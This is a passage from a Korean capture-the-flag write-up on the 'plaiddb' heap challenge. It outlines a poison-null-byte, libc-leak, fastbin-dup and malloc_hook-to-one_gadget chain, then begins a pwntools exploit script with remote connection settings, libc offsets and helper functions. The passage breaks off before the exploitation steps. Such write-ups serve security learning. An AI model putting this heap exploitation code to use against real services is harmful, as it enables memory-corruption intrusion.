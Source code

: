 그리고 위 참고한 글에서의 `b2`부분을 사용해서 `fastbin_dup_into_stack`으로 `malloc_hook`를 덮어서 풀었어요.

1. `poison_null_byte`

2. `libc_leak`

3. `fastbin_dup_into_stack`

4. `malloc_hook` -> `one_gadget`

- - -
# 0x02. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "52.4.86.204"
PORT = 4444
#PORT = 64613

s = remote(HOST, PORT)
pause()

elf = ELF("./plaiddb")
libc = ELF("./libc.so.6")

libc_off = 0x3c4b78
malloc_hook_off = 0x3c4b10
one_off = 0x4526a

def func_GET(key):
    s.recvuntil("PROMPT: Enter command:\n")
    s.sendline("GET")

    s.recvuntil("PROMPT: Enter row key:\n")
    s.sendline(key)

def func_PUT(key, content):
    s.recvuntil("PROMPT: Enter command:\n")
    s.sendline("PUT")

    s.recvuntil("PROMPT: Enter row key:\n")
    s.sendline(key)

    s.recvuntil("PROMPT: Enter data size:\n")
    s.sendline(str(len(content)))

    s.recvuntil("PROMPT: Enter data:\n")
    s.send(content)

def func_PUT_size(key, size, content):
    s.recvuntil("PROMPT: Enter command:\n")
    s.sendline("PUT")

    s.recvuntil("PROMPT: Enter row key:\n")
    s.sendline(key)

    s.recvuntil("PROMPT: Enter data size:\n")
    s.sendline(str(size))

    s.recvuntil("PROMPT: Enter data:\n")
    s.send(content)

```